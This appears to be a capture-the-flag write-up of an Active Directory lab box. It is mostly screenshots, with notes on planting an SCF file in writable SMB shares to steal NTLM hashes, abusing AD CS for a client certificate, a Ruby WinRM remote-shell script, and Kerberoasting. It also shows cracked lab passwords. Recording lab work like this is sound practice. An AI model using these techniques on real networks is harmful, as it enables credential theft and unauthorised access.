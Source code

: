# Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: #ADCS #SMB #WinRM #Kerbeosting #DCsync #activedirectory #ntlm

# Findings
## External
### Enumeration
![](https://i.imgur.com/6KP9kP7.png)
![](https://i.imgur.com/Wpiuga5.png)
![](https://i.imgur.com/K5yeJo9.png)
![](https://i.imgur.com/YVD0I83.png)

![](https://i.imgur.com/QrmYsOE.png)
![](https://i.imgur.com/LgnNL8B.png)
![](https://i.imgur.com/cf3l31F.png)
>[!danger] No Kerberos 
- ![](https://i.imgur.com/g2BkC42.png)
- I got 2 writeable folders.
- ![](https://i.imgur.com/sAu8rYS.png)
![](https://i.imgur.com/wKdEGNI.png)
I have write Permission
![](https://i.imgur.com/Lw1gw3j.png)
- can place ntlm stealer on the smb and get their ntlm.
![](https://i.imgur.com/sPS3nek.png)
I putted the scf file on both writeable directories.
![](https://i.imgur.com/gewc9Zx.png)

![](https://i.imgur.com/iDkr20i.png)
![](https://i.imgur.com/74bbTA1.png)
`Ashare1972       (amanda)`
### Gaining Access
- Blood Hound
- ![](https://i.imgur.com/nVFVLF7.png)
	- This means it need some kinda SSL certs. for that we can use the AD CS
- From our web enum, we have seen CertEnroll, so there will be the AD CS endpoints
	- ![](https://i.imgur.com/ysxRa15.png)
![](https://i.imgur.com/xgxDCqr.png)
![](https://i.imgur.com/o3orL6v.png)
![](https://i.imgur.com/X06nHP9.png)
- https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm
```ruby
require 'winrm'
 
conn = WinRM::Connection.new(
    endpoint: 'https://10.10.10.103:5986/wsman',
    transport: :ssl,
    client_cert: 'certnew.cer',
    client_key: 'caca.key',
:no_ssl_peer_verification => true
)
command=""
 
conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
![](https://i.imgur.com/TL6E8Vt.png)
## Internal
### Enumeration
- Kerberoastable
	- ![](https://i.imgur.com/KO65OPb.png)
- ![](https://i.imgur.com/zwJGPom.png)
- ![](https://i.imgur.com/B7nWhBm.png)
`mrlky : Football#7`
- ![](https://i.imgur.com/XWrAgUU.png)
### Gaining Access
 ![](https://i.imgur.com/DUKaEz9.png)



### Maintaining Access
![](https://i.imgur.com/5iq7ZSO.png)


# Random Notes